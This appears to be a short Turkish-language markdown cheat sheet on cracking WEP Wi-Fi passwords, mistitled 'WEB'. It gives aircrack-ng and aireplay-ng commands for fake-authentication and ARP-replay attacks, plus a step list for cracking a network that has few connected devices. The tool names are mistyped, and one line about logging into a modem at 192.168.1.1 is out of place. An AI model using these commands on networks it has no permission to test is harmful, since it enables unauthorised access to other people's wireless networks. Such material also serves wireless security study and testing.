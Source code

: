 # WEB Şifre Kırma
```aircrack -ng airodumptest.cap``` (Tarama Sırasında Yazdırdığımız Dosya)

### Fakeauth saldırısı yapıyoruz ağdan birisi düşüp tekrar bağlanırsa handshake yakalamamız kolaylaşır
```aireplay -ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h YY:YY:YY:YY:YY:YY wlan0mon```

```aireplay -ng --arpreplay -b XX:XX:XX:XX:XX:xX -h YY:YY:YY:YY:YY:YY wlan0mon``` belirlenen cihaza IV yollamamızı sağlar

* **192.168.1.1** modeminizin ara yüzüne giriş yaparsınız

## Eğer Ağda Yeteri Kadar Cihaz Yoksa
* fakeauuth yolla
* arpreplay çalıştır
* aircrack -ng çalıştır







